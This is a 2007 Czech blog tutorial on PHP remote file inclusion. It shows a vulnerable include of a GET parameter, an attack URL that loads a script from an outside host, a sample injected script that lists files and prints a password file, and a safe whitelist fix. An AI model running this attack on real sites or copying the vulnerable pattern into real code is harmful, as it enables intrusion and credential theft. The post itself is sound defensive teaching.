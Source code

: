 ```yaml
---
layout: single
title:  "Hackerem sám sobě (1) - PHP Injection"
date:   2007-07-26 15:24:46
---
```

Tento článek startuje menší seriál o bezpečnosti webových aplikací. Řeknu vám,
jak hackovat své vlastní stránky za účelem důkladného otestování bezpečnosti
vašeho webu. Tím vás ale nenabádám, abyste tyto techniky zkoušeli na stránkách,
které nepatří vám - žádné skrývání pomocí sítě [TOR](http://tor.eff.org/) a
nabourávání webu FBI prosím nedělejte.

Všechny techniky se pokusím prakticky ukázat - to znamená, že uvidíte ukázky kódu
a odkazy přímo na PHP skripty, kde lze tuto chybu pozorovat. V žádném případě
nebudu zacházet až příliš do hloubky - další rozšiřování kódu je na vaší fantazii.

## PHP Injection

Začnu tím nejjednodušším, kde dělají chyby většinou jen začátečníci. Spočívá
v injection = injekci, tedy vložení cizího skriptu do stránky. Bezpečnostní
riziko mohou způsobit funkce, které provádějí kód z externích souborů - nejčastěji
`include` nebo `require`.

Nejvíce je s touto technikou spojován skript index.php, který obsahuje hlavičku
a patičku, přičemž samotný obsah je tvořen externím souborem vkládaným přes
`include`:

```html
<html>
  <head>
    <meta http-equiv="content-type" content="text/html; charset=utf-8">
    <title>Ukázka PHP Injection</title>
  </head>
  <body>
    <!-- hlavicka a menu -->
    <?php include $_GET[ "stranka" ] ?>     
    <!-- paticka -->
  </body>
</html>
```

Tímto tvůrce stránek udělal jednoduchý skript díky kterému nemusí psát do
každého html souboru menu a další věci opakující se na každé stránce. Adresa
stránky s kontaktem bude mít následující tvar:

```txt
index.php?stranka=kontakt.php
```

Je to sice krásně jednoduché, ale takový skript má obrovskou bezpečnostní díru !
Pokud nemáme na serveru zakázáno `allow_url_include`, můžeme směle `kontakt.php`
nahradit vzdáleným skriptem:

```txt
index.php?stranka=http://domena.cz/zakernyskript.php
```

Tento vložený cizí skript pak bude mít stejné práva a možnosti jako váš vlastní
skript ! Může třeba prohlížet obsah adresáře nebo zobrazit obsah jakéhokoliv
vašeho skriptu:

```html
<p><strong>Klidně si vypíšu obsah adresáře:</strong></p>
<p>
  <?php
  $adresar = dir( "./" );
  while ( $polozka = $adresar->read( ) ) {
    echo $polozka."<br />\\n";
  }
  $adresar->close( );
  ?>
</p>
<p><strong>A pak obsah souboru s hesly:</strong></p>
<pre>
  <?php
  echo htmlspecialchars( file_get_contents( "passwords.php" ) );
  ?>
</pre>
```

A je vymalováno - tato bezpečnostní díra přinesla útočníkovi celý web na stříbrném
podnose.

## Řešení

Nejlepší metodou pro tento typ skriptu je nadefinování všech stránek pomocí
podmínek. Nebudeme tím spoléhat na vstup, což udělá náš skript bezpečným.

```html
<html>
  <head>
    <meta http-equiv="content-type" content="text/html; charset=utf-8">
    <title>Bezpečný skript</title>
  </head>
  <body>
    <!-- hlavicka a menu -->
    <?php
    switch ( $_GET[ "stranka" ] ) {
      case "novinky":
        include "novinky.php";
        break;
      case "kontakt":
        include "kontakt.php";
        break;
      // a tak dale...
      default:
        include "404.php"; // stranka nenalezena	
        break;
    }
    ?>
    <!-- paticka -->
  </body>
</html>
```

Adresa pro zobrazení kontaktu bude nyní `index.php?stranka=kontakt`.

Doufám, že jste si uvědomili nedozírné následky prezentované chyby a dáte si
na PHP Injection pozor. Pokud používáte externí soubory, ujistěte se, že
opravdu nejdou podstřčit něčím jiným. Dávejte si pozor i na přípony, existují
situace, kdy i obrázek může být maskovaný skript :wink:.

